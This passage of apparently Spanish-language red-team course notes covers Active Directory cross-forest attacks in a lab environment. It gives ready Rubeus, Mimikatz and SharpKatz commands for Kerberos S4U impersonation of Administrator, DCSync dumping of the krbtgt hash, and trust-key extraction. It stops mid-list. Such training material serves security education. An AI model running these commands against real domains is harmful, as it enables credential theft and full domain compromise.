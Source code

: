 `C:\AD\Tools\Rubeus.exe s4u /user:storagesvc
/rc4:068A0A7194F8884732E4F5A7CB47E17C
/impersonateuser:Administrator /domain:eu.local
/msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eudc.eu.local /ptt`

Abuse the TGS to LDAP:

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'`

Or:

`C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local`

**Cross Forest Attacks - Unconstrained Delegation**

- Recuerde el error de la impresora y su abuso de una máquina con delegación sin restricciones.
- Lo hemos utilizado para escalar privilegios a Administrador de dominio y Administrador de empresa.
- ¡También funciona en una confianza de bosque bidireccional con la delegación TGT habilitada!
- La delegación TGT está deshabilitada de forma predeterminada y debe habilitarse explícitamente a través de una confianza para el bosque de confianza (destino).
- En el laboratorio, TGTDelegation se establece de usvendor.local a techcorp.local
(pero no configurado para la otra dirección).

Para enumerar si TGTDelegation está habilitado en una confianza de bosque, ejecute el siguiente comando desde un DC:

`netdom trust trustingforest /domain:trustedforest
/EnableTgtDelegation`

En el laboratorio, esto se ejecutará en usvendor-dc:

`netdom trust usvendor.local /domain:techcorp.local
/EnableTgtDelegation`

Los cmdlets de PowerShell de ADModule parecen tener un error, el siguiente comando muestra TGTDelegation establecido en False:

`Get-ADTrust -server usvendor.local -Filter *`

Pero cuando se ejecuta desde usvendor-dc, muestra que TGTDelegation es True.

**Cross Forest Attacks - Trust Key**

- Al abusar del flujo de confianza entre los bosques en una confianza bidireccional, es posible acceder a los recursos a través de los límites del bosque.
- Podemos usar la clave de confianza, de la misma manera que en los Domain Trusts , pero podemos acceder solo a los recursos que se comparten explícitamente con nuestro bosque actual.
- Intentemos acceder a un recurso compartido de archivos 'eushare' en euvendor-dc del bosque euvendor.local desde eu.local que se comparte explícitamente con Administradores de dominio de eu.local.
- Tenga en cuenta que estamos saltando confianzas de us.techcrop.local a eu.local a euvendor.local.
- Al igual que en el escenario dentro de un bosque, necesitamos la clave de confianza para la confianza entre bosques.

    `Invoke-Mimikatz -Command '"lsadump::trust /patch"'`

    Or:
